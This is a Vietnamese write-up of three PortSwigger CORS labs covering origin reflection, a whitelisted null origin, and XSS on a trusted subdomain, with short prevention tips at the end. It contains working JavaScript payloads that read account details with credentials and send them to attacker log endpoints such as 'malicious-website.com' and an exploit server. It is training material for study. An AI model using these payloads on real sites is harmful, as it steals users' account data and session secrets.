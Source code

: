 # CORS

### 1. CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Context: trusted all origin

![alt text](image.png)

Trong response có `Access-Control-Allow-Credentials: True` nó cho phép mang cookie hoặc authorization client có khi truy cập từ orgin khác. 

Test:

Thêm `Origin: https://example.com` vào request và ở response xuất hiện `Access-Control-Allow-Origin: https://example.com`

![alt text](image-1.png)

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

hoặc 
```js
<html>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "Lab-id"

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

--- 

### 2. CORS vulnerability with trusted null origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

Nếu whitelist của trusted origin có `null` thì dẫn đến việc nó có thể dẫn đến CORS do browser sẽ gửi giá trị `null` trong origin trong 1 số trường hợp như: 
- Cross-origin redirects.
- Requests từ serialized data.
- Request sử dụng `file:` protocol.
- request cross-origin được gửi từ Sandboxed.

Payload: 
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

---

XSS WITH CORS

Khi CORS cho phép 1 orgin, nhưng origin đó có thể tấn công XSS thì từ origin đó có thể thực thi JS CORS qua trang chính mà không bị chặn. 

---

### 3. CORS vulnerability with trusted insecure protocols
https://portswigger.net/web-security/cors/lab-breaking-https-attack

Context: ở đây subdomain `stock.domain chính` bị XSS từ đây ta có payload: 

```html
<script>
    document.location="http://stock.0a41007504014d858586c60500f000c4.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a41007504014d858586c60500f000c4.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a2e0093048b4d188569c55301ea0032.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Ta chú ý: xuất phát từ `stock.` là trang bị XSS nhưng CORS cho phép, dùng JS để truy cập trang web cần lấy và rồi gửi thông tin về server attacker, rõ ràng trang web bị XSS nhưng vẫn nằm trang danh sách CORS này là trung gian.

Có 1 điểm đặc biệt nghiêm trọng trong CORS là `Access-Control-Allow-Credentials: true` vì khi có header này tức là khi ta request đến trang đó, nó sẽ cho phép lấy các authorization hoặc cookie mà client đã truy cập trước đó để request, thì sẽ tự động vào phiên của người dùng trước đó, còn nếu không có thì dù có truy cập được nhưng vẫn chỉ là trang web chung, vì ko có tính cá nhân victim trong đó. 

## How to prevent
- Chỉ cho phép các trang web đáng tin cậy
- Tránh để null vào whitelist
- Tránh sử dụng `*` cho mạng nội bộ 

 
